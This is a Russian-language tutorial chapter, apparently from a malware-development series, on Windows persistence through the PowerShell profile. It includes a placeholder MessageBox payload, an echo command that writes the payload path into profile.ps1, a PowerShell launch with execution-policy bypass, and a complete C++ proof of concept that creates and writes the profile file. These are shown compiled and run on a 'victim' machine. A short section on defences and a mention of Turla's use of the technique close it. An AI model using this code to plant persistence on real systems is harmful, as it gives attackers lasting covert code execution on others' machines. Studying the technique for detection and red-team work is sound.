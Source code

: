 \newpage
\subsection{77. Разработка вредоносного ПО: закрепление (persistence) - часть 11. Профиль PowerShell. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/70/2022-09-20_08-06.png){width="80%"}    

Этот пост является результатом моего собственного исследования одного из интересных методов закрепления вредоносного ПО: через профиль PowerShell.    

### профиль PowerShell

Профиль PowerShell - это скрипт PowerShell, который позволяет системным администраторам и пользователям настраивать свою среду и выполнять определённые команды при запуске сессии Windows PowerShell.     

Скрипт профиля PowerShell хранится в папке `WindowsPowerShell`:    

![pers](./images/70/2022-09-20_08-29.png){width="80%"}    

Добавим следующий код в файл профиля текущего пользователя, который будет выполняться при каждом запуске консоли PowerShell пользователем:

`Z:\2022-09-20-malware-pers-11\hack.exe`    

Я продемонстрирую этот метод на практическом примере, чтобы всё стало понятно.    

### практический пример

Сначала создадим наш "вредоносный" файл:     

```cpp
/*
hack.cpp
вредоносное приложение для Windows
закрепление через профиль PowerShell
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/20/malware-pers-11.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Как обычно, это просто "meow-meow" messagebox.    

Компилируем:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/70/2022-09-20_08-07.png){width="80%"}    

Запускаем на машине жертвы для проверки корректности:    

![pers](./images/70/2022-09-20_09-03.png){width="80%"}    

Теперь применяем этот простой "трюк":   

```powershell
echo Z:\2022-09-20-malware-pers-11\hack.exe > \
"%HOMEPATH%\Documents\windowspowershell\profile.ps1"
```

И наконец, запускаем PowerShell:    

```powershell
powershell -executionpolicy bypass
```

![pers](./images/70/2022-09-20_08-16.png){width="80%"}    

![pers](./images/70/2022-09-20_08-18.png){width="80%"}    

Как видно, наш вредоносный код выполняется при запуске PowerShell, и родительским процессом для messagebox является PowerShell. =^..^=    

Я создал простой PoC-код для автоматизации этого процесса:    

```cpp
/*
pers.cpp
windows persistence via Powershell profile
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/20/malware-pers-11.html
*/
#include <windows.h>
#include <stdio.h>
#include <strsafe.h>
#include <iostream>

int main(int argc, char* argv[]) {
  char path[MAX_PATH];
  char *homepath = getenv("USERPROFILE");
  char pspath[] = "\\Documents\\windowspowershell";
  char psprofile[] = "\\profile.ps1";
  char evil[] = "Z:\\2022-09-20-malware-pers-11\\hack.exe";
  DWORD evilLen = (DWORD)strlen(evil);

  StringCchCopy(path, MAX_PATH, homepath);
  StringCchCat(path, MAX_PATH, pspath);
  BOOL wd = CreateDirectoryA(path, NULL);
  if (wd == FALSE) {
    printf("unable to create dir: %s\n", path);
  } else {
    printf("successfully create dir: %s\n", path);
  }

  StringCchCat(path, MAX_PATH, psprofile);
  HANDLE hf = CreateFile(
    path,
    GENERIC_WRITE,
    0,
    NULL,
    CREATE_NEW,
    FILE_ATTRIBUTE_NORMAL,
    NULL
  );

  if (hf == INVALID_HANDLE_VALUE) {
    printf("unable to create file: %s\n", path);
  } else {
    printf("successfully create file: %s\n", path);
  }

  BOOL wf = WriteFile(hf, evil, evilLen, NULL, NULL);
  if (wf == FALSE) {
    printf("unable to write to file %s\n", path);
  } else {
    printf("successfully write to file evil path: %s\n", evil);
  }

  CloseHandle(hf);
  return 0;
}
```

Логика проста: этот скрипт просто создает папку профиля, если ее нет, затем создает файл профиля и обновляет его.    

### демонстрация

Давайте посмотрим, как это работает. Компилируем наш PoC:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/70/2022-09-20_08-07_1.png){width="80%"}    

Запускаем его на машине жертвы:    

```powershell
.\pers.exe
```

![pers](./images/70/2022-09-20_08-09.png){width="80%"}    

![pers](./images/70/2022-09-20_08-11.png){width="80%"}    

А теперь запускаем сеанс PowerShell:        

![pers](./images/70/2022-09-20_08-51.png){width="80%"}    

Если проверим через Process Hacker:     

![pers](./images/70/2022-09-20_08-53.png){width="80%"}    

`powershell.exe` снова является родительским процессом, как и ожидалось.     

Как видно, всё работает идеально! =^..^=    

Однако есть один нюанс. Если PowerShell запускается без режима обхода политики выполнения, этот метод закрепления не сработает:    

![pers](./images/70/2022-09-20_09-05.png){width="80%"}    

Кроме того, существует четыре места, в которых можно злоупотребить профилем PowerShell, в зависимости от имеющихся привилегий:   

```powershell
$PROFILE | select *
```

![pers](./images/70/2022-09-20_09-08.png){width="80%"}    

Хранение произвольных инструкций в скрипте профиля PowerShell предоставляет множество возможностей для выполнения кода. Чтобы избежать зависимости от запуска PowerShell пользователем, можно использовать запланированное задание, которое запускает PowerShell в определённое время.      

### способы защиты

Принудительное выполнение только подписанных PowerShell-скриптов. Подписывайте профили, чтобы избежать их модификации. Также можно полностью отказаться от профилей PowerShell, если они не нужны, используя флаг `-No-Profile`.    

Этот метод закрепления используется группой [Turla](https://attack.mitre.org/groups/G0010/) в реальных атаках.    

Надеюсь, этот пост поможет специалистам синей команды лучше понять данную технику и добавит новый инструмент в арсенал красных команд.

[Microsoft PowerShell profiles](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_profiles?view=powershell-7.2)       
[MITRE ATT&CK. Event Triggered Execution: PowerShell Profile](https://attack.mitre.org/techniques/T1546/013/)     
[Turla](https://attack.mitre.org/groups/G0010/)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-09-20-malware-pers-11)    
